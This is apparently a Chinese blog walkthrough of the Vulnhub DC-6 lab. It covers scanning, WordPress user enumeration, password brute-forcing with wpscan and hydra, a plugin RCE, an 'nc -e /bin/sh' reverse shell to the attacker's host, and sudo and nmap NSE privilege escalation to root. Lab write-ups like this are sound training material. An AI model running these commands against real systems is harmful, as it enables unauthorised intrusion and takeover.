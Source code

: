 ```yaml
---
title: DC 6  
date: 2024-03-20  
categories: [Training platform,Vulnhub]  
tags: [Vulnhub]  
permalink: "/Vulnhub/DC6.html"
---
```


# DC-6

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718414.png" alt="image-20240320150251272" style="zoom: 50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718415.png" alt="image-20240320150444597" style="zoom:50%;" />

看来这个靶机相对好搞一点点哦：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718416.png" alt="image-20240320154036553" style="zoom:50%;" />

扫到了一个，但是不知道是不是：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718417.png" alt="image-20240320154119848" style="zoom:50%;" />

看样子没错了。

## 信息搜集

### 端口扫描

```bash
sudo nmap  -sV -sT -T4 -p- 10.160.31.197
```

毕竟是老靶场了，就不扫描漏洞了。

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
MAC Address: 00:0C:29:F1:F4:55 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 目录爆破

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.160.31.197 -f -t 200
```

```text
/icons/               (Status: 403) [Size: 294]
/wp-content/          (Status: 200) [Size: 0]
/wp-includes/         (Status: 200) [Size: 42578]
/wp-admin/            (Status: 302) [Size: 0] [--> http://wordy/wp-login.php?redirect_to=http%3A%2F%2F10.160.31.197%2Fwp-admin%2F&reauth=1]
/server-status/       (Status: 403) [Size: 302]
```

和作者说的一样确实是`wordpress`站点，以防万一，再扫一下：

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.160.31.197 -f -t 50 -x php,html,txt,jpg,png -r
```

![image-20240320155038937](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718418.png)

忘了，作者说要添加的来着。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718419.png" alt="image-20240320155453372" style="zoom:50%;" />

忘了递归爆破了，算了，换一个吧：

```bash
feroxbuster -u http://10.160.31.197
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718420.png" alt="image-20240320155614973" style="zoom: 67%;" />

### Wappalyzer插件

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718421.png" alt="image-20240320155817104" style="zoom: 33%;" />

版本比较老了。

## 漏洞利用

访问一下

![image-20240320155755448](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718422.png)

到处浏览一下，发现登录入口：

![image-20240320160134453](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718423.png)

```bash
http://wordy/wp-login.php?redirect_to=http%3A%2F%2Fwordy%2Fwp-admin%2F&reauth=1
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718424.png" alt="image-20240320160157445" style="zoom:50%;" />

### WPScan扫描

弱口令以及万能密码，都不行，很正常，wpscan扫一下用户：

```bash
wpscan --url http://wordy/ --enumerate u
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718425.png" alt="image-20240320160500793" style="zoom:50%;" />

扫出来五个用户。按照作者的提示是要拿rockyou公司的那个字典爆破一下了，为了节省时间，按作者方法将密码进行提取一下，方便我们快速完成爆破这一行为：

```bash
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
echo "admin\njens\ngraham\nmark\nsarah\n" > usernames.txt
wpscan --url http://wordy -U usernames.txt -P passwords.txt 
```

也可以尝试使用`hydra`进行爆破：

```bash
hydra -L usernames.txt -P passwords.txt -t 10 -f www.wordy.com http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:login_error"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718426.png" alt="image-20240320161756618" style="zoom:50%;" />

同时进行吧：

![image-20240320162747709](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718427.png)

扫出来了，尝试进行登录！

```apl
mark
helpdesk01
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718428.png" alt="image-20240320162908102" style="zoom:50%;" />

### WP插件远程执行漏洞

进来了！但是好像没有方便我们上传的工具欸，查看一下插件是否有远程执行的漏洞吧，wordpress插件的漏洞还是屡见不鲜的。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718429.png" alt="image-20240320164434095" style="zoom:50%;" />

还真有一个，尝试一下能不能用：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718430.png" alt="image-20240320164807105" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718431.png" alt="image-20240320164819817" style="zoom:50%;" />

连上了欸！

```bash
nc -e /bin/sh 10.161.181.188 1234
pwncat-cs -lp 1234
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718433.png" alt="image-20240320165515506" style="zoom:50%;" />

打错了，哈哈哈，尴尬 | -_- |~~

### 查看基础信息

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718434.png" alt="image-20240320165807067" style="zoom:50%;" />

没发现啥，去常看的目录瞅瞅：

```php
// wp-config.php

/** MySQL database username */
define( 'DB_USER', 'wpdbuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'meErKatZ' );
```

尝试一下，这个密码可不可以登录root。

```apl
wpdbuser
meErKatZ
```

失败了。继续吧：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718435.png" alt="image-20240320170524913" style="zoom: 50%;" />

然后接着就发现了nice的事情：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718436.png" alt="image-20240320170633343" style="zoom:67%;" />

获取到了账号密码，切换一下用户。

### 切换graham用户

```apl
graham 
GSo7isUM1D4
```

查看基础信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718437.png" alt="image-20240320170917802" style="zoom:50%;" />

利用一下：

```
echo "/bin/bash" >> backups.sh
sudo -u jens ./backups.sh
```

### 切换到jans

搜集一下信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718438.png" alt="image-20240320171209012" style="zoom:50%;" />

### 使用nmap进行提权

利用`nmap`执行脚本的方式，进行提权

```bash
echo 'os.execute("/bin/sh")' > exp.nse
sudo nmap --script=exp.nse
```

![image-20240320171728368](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718439.png)

不知道为啥输入的没有显示，但是毫无疑问，我们拿到root辣！

